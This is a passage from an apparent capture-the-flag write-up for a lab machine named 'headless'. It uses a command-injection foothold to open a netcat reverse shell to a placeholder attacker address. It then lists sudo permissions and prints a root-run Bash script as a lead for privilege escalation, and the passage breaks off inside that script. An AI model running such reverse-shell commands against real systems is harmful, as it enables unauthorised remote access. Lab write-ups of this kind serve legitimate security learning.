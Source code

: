 ![ci_test](./img/ci_test.png)

Since command injection is possible on this machine, we can try to get reverse shell through this. Poking around a bit, we found that netcat is installed on this machine, thus we can spawn a shell with that.

```shell
> nc <IP_ADDR> 1337 -e /bin/bash
```

The user flag can be found at `/home/dvir`.

## Privilage Escalation

Once we get back a shell, we can try to find out what command this user can perform sudo as with `sudo -l`

```bash
> sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

It seems we can run syscheck. Performing `file /usr/bin/syscheck` shows that it is a Bash script.

```bash
> cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
```
